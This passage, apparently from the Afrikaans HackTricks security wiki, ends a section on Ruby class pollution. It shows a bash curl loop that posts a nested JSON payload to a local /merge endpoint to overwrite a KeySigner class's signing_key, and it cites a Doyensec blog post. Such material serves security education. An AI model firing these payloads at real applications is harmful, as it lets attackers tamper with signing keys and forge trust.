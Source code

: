 Met hierdie payload:
```bash
for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge --silent > /dev/null; done
```
Dit is moontlik om die gedefinieerde klasse te brute-force en op 'n sekere punt die klas **`KeySigner`** te besoedel deur die waarde van `signing_key` te verander na `injected-signing-key`.\

## Verwysings

- [https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html)

{{#include ../../banners/hacktricks-training.md}}
